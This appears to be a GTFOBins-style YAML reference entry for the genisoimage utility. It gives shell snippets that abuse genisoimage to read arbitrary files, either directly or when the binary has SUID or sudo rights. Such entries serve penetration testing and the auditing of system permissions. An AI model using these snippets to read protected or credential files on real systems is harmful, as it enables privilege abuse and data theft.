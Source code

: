 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        genisoimage -q -o - "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./genisoimage -q -o - "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        genisoimage -q -o - "$LFILE"
---
```

